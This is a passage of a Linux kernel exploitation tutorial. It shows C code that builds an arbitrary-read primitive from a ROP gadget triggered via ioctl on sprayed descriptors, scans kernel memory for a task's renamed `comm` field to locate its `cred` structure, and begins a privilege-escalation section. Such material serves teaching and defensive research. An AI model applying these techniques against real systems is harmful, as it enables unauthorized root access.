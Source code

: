 `->comm` is a 16 byte string storing the executable's name.  This value can be
changed using prctl(2) with option PR_SET_NAME. 

In order to find `cred`, the exploit sets `comm` with a string that is unlikely
to exist in the kernel and searches for it using AAR. `cred` will 8 bytes
before in memory.

~~~c
unsigned int AAR32(unsigned long addr) {
  if (cache_fd == -1) {
    unsigned long *p = (unsigned long*)&buf;
    p[12] = rop_mov_eax_prdx;
    *(unsigned long*)&buf[0x418] = g_buf;
    write(fd, buf, 0x420);
  }

  // mov eax, [rdx]; ret;
  if (cache_fd == -1) {
    for (int i = 0; i < 100; i++) {
      int v = ioctl(spray[i], 0, addr /* rdx */);
      if (v != -1) {
        cache_fd = spray[i];
        return v;
      }
    }
  } else {
    return ioctl(cache_fd, 0, addr /* rdx */);
  }
}

int main() { // task_structの探索
...
  if (prctl(PR_SET_NAME, "nekomaru") != 0)
    fatal("prctl");
  unsigned long addr;
  for (addr = g_buf - 0x1000000; ; addr += 0x8) {
    if ((addr & 0xfffff) == 0)
      printf("searching... 0x%016lx\n", addr);
  
    if (AAR32(addr) == 0x6f6b656e
        && AAR32(addr+4) == 0x7572616d) {
      printf("[+] Found 'comm' at 0x%016lx\n", addr);
      break;
    }
  }
~~~

### Escalating privileges

~~~c
File: include/linux/cred.h

110  struct cred {
111  	atomic_t	usage;
112  #ifdef CONFIG_DEBUG_CREDENTIALS
113  	atomic_t	subscribers;	/* number of processes subscribed */
114  	void		*put_addr;
115  	unsigned	magic;
116  #define CRED_MAGIC	0x43736564
117  #define CRED_MAGIC_DEAD	0x44656144
118  #endif
119  	kuid_t		uid;		/* real UID of the task */
120  	kgid_t		gid;		/* real GID of the task */
121  	kuid_t		suid;		/* saved UID of the task */
122  	kgid_t		sgid;		/* saved GID of the task */
~~~